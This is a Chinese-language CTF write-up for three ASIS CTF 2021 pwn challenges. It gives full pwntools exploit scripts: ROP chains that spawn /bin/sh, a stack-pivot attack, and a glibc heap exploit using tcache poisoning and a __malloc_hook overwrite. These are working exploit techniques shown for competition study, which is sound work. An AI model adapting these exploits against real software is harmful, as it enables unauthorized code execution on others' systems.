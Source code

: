 ## Pwn

### JustPwnIt

```
// file
./chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

// checksec
[*] '/home/u1f383/writeups-2021/ASIS_CTF_Quals/justpwnit/distfiles/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



hijack rbp 後，由於在上層的 function epilogue 會執行 `leave ; ret`，就會執行到我們所控制的 ROP chain，exploit：

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = process('./chall')
gdb.attach(r, "b *0x4011F2")
syscall = 0x4013e9
mov_qptr_rdi_rax_ret = 0x401ce7 # mov qword ptr [rdi], rax ; ret
pop_rax_ret = 0x401001
pop_rdi_ret = 0x401b0d
pop_rsi_ret = 0x4019a3
pop_rdx_ret = 0x403d23
data = 0x40b000
sh = 0x7ffff7ffe01b

payload = flat(
    0xdeadbeef,

    pop_rdi_ret,
    data,
    pop_rax_ret,
    0x68732f6e69622f,
    mov_qptr_rdi_rax_ret,
    pop_rax_ret,
    0x3b,
    pop_rsi_ret,
    0,
    pop_rdx_ret,
    0,
    syscall
)

r.sendlineafter('Index: ', str(-2))
r.sendlineafter('Data: ', payload)
r.interactive()
```



### abbr

```
// file
./chall: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=6175d64be9a98f36489336bafc550b7fae7c0363, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/home/u1f383/writeups-2021/ASIS_CTF_Quals/abbr/distfiles/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



利用程式撰寫漏洞蓋 fucntion pointer，而這邊使用 `xchg eax, esp ; ret` 做 stack pivoting，exploit 如下：

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = process('./chall')
gdb.attach(r, """
b *0x402010
b *0x402015
""")

mov_qptr_rdi_rsi_ret = 0x45684f
xchg_eax_esp_ret = 0x405121
pop_rdi_ret = 0x4018da
pop_rsi_ret = 0x404cfe
pop_rdx_ret = 0x4017df
pop_rax_ret = 0x45a8f7
syscall = 0x4012e3
data = 0x4ccd40

payload = flat(
    pop_rdi_ret,
    data,
    pop_rsi_ret,
    0x0068732f6e69622f,
    mov_qptr_rdi_rsi_ret,
    pop_rsi_ret,
    0,
    pop_rdx_ret,
    0,
    pop_rax_ret,
    0x3b,
    syscall
)

r.sendlineafter('Enter text: ', b'www'*257 + p64(xchg_eax_esp_ret))
r.sendlineafter('Enter text: ', payload)
r.interactive()
```



### strvec

```
// file
./chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ced70ca24d07669b7b947319b11de9648ee20c4d, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/home/u1f383/writeups-2021/ASIS_CTF_Quals/strvec/distfiles/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```



因為 integer overflow 的關係，vector size 雖然會記錄 vector 大小為一個很大的值，但是實際上 `malloc()` 傳入的大小會是 overflow 的結果 `0`，因此可以任意透過 `set` 與 `get` 操控 heap chunk。libc address 透過 unsorted chunk 來 leak，heap address 則透過 tcache，不過最後在做 exploit 時，因為每次 freed chunk 都會先被 `malloc(0x20)` 所拿到，tcache counter 不會超過 1，因此不能直接做 tcache poison，在這邊參考此 [writeup](https://ctftime.org/writeup/31081)，透過把 tcache struct 放到 unsorted bin 當中，讓 fd 與 bk 剛好可以蓋到 0x30 chunk 的 counter，counter 變成一個很大的值後就可以做 tcache poison，不過在此之後如果執行 `malloc(0x20)`，因為 tcache 當中已經沒有 chunk，因此 glibc 會先去 unsorted bin 找，而此時 unsorted bin 指向的是 tcache struct，是一個非法的 chunk，會讓 `malloc(0x20)` 壞掉，所以我們沒辦法蓋 `__free_hook` 做到直接執行 `system("/bin/sh")`，而是透過 `__malloc_hook` + one gadget 拿到 shell，以下為 exploit：

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

INT_MAX = 2147483647

r = process('./chall')
gdb.attach(r, """

""")

r.sendafter('Name: ', '\n')
# 0x7fffffff+1 == 0x80000000
# 0x80000000 << 3 will overflow => 0x0
r.sendlineafter('n = ', str(INT_MAX))

def get(idx):
    r.sendlineafter('1. get\n2. set\n> ', '1')
    r.sendlineafter('idx = ', str(idx))

def _set(idx, data):
    r.sendlineafter('1. get\n2. set\n> ', '2')
    r.sendlineafter('idx = ', str(idx))
    r.sendafter('data = ', data)

_set(0, '\n')
_set(3, p64(0) + p64(0x31) + b'\n')
get(0)
r.recvuntil('vec.get(idx) -> ')
heap = u64(r.recv(6).ljust(8, b'\x00'))
info(f"heap: {hex(heap)}")
_set(0, p64(heap + 0x10) + b'\n')

# spray
for i in range(4, 7):
    _set(i, '\n')
_set(11, '\n')
_set(12, '\n')
for i in range(16, 19):
    _set(i, p64(0) + p64(0x291) + b'\n')
for i in range(21, 25):
    _set(i, p64(0) + p64(0x291) + b'\n')
for i in range(27, 32):
    _set(i, p64(0) + p64(0x291) + b'\n')
for i in range(33, 38):
    _set(i, p64(0) + p64(0x291) + b'\n')
_set(15, '\n')
_set(1, p64(0)*3 + p64(0x421)[:-1])
_set(0, '\n')
_set(4, 'aaaa\n')
get(5)
r.recvuntil('vec.get(idx) -> ')
libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
__free_hook = libc + 0x1eeb28
__malloc_hook = libc + 0x1ebb70
_system = libc + 0x55410
info(f"libc: {hex(libc)}")
_set(7, p64(heap + 0x130) + p64(heap + 0x160) + p64(heap + 0x190) + p64(heap + 0x1c0)[:-1])
_set(3, p64(heap + 0x1f0) + p64(heap + 0x220) + p64(heap + 0x250) + p64(heap - 0x2e0)[:-1])
_set(4, '\n')
_set(5, '\n')
_set(6, '\n')
_set(21, '\n')
_set(22, '\n')
_set(23, '\n')

_set(3, '\n')
_set(21, '\n')
_set(21, p64(__malloc_hook) + p64(0) + b'\n')
_set(24, p64(heap + 0x70) + p64(0x31) + b'/bin/sh'[::-1] + b'\n')
_set(9, '\n')
_set(11, p64(libc + 0xe6c81) + b'\n')
r.sendlineafter('1. get\n2. set\n> ', '2')
r.sendlineafter('idx = ', '21')
r.interactive()
```

官方 [writeup](https://ptr-yudai.hatenablog.com/) 則是先用 `libc.symbol('environ')` leak stack address，在算出 canary 的 offset 取得 canary，最後 overwrite return address 成 one gadget，利用 stack 的解法也是他沒有用 `seccomp` 的原因，因此上面透過將 tcache struct 放入 unsorted bin 的解法並非他的預期解。